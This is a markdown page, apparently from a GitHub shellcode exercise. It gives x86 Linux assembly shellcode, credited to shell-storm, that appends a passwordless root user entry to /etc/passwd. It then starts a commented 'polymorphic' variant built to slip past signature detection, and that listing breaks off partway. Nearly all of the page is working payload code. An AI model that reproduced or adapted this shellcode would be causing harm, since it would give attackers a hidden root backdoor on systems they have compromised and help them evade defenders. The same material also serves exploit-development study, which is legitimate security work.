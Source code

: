 ## Add Root User Shellcode
### Original Shellcode
- Source: http://shell-storm.org/shellcode/files/shellcode-211.php
- This will add a root user in the `/etc/passwd` file without a password
```nasm
global _start

section .text

_start:
  push byte +0x5
  pop eax
  xor ecx, ecx
  push ecx
  push dword 0x64777373
  push dword 0x61702f2f
  push dword 0x6374652f
  mov ebx, esp
  mov cx, 0x401
  int 0x80
  mov ebx, eax
  push byte +0x4
  pop eax
  xor edx, edx
  push edx
  push dword 0x2f3a3a30
  push dword 0x3a303a3a
  push dword 0x74303072
  mov ecx, esp
  push byte +0xc
  pop edx
  int 0x80
  push byte +0x6
  pop eax
  int 0x80
  push byte +0x1
  pop eax
  int 0x80
```

### Polymorphic Version
Explanation of each lines are added as comments in the code:
```nasm
global _start

section .text

_start:
  ; open('/etc//passwd', O_WRONLY | O_APPEND)
  push byte 0x5                 ; open(2)
  mov eax, [esp]                ; eax = 0x5
  pop ecx                       ; ecx = 0x5
  xor ecx, 0x5                  ; clear ecx
  push ecx                      ; push NULL
  push ecx                      ; push NULL
  mov dword [esp], 0x2d3ffc2d   ; overwrite the recent null in stack
  add dword [esp], 0x37377746   ; esp value = 'sswd'
  mov ebx, dword [esp]          ; ebx = 'sswd'
  push ebx                      ; esp value = 'sswd'
  xor dword [esp], 0x5075c5c    ; esp value is now '//pa' after xor
  sub ebx, 0x1030e44            ; ebx = '/etc'
  push ebx                      ; esp value = '/etc'
```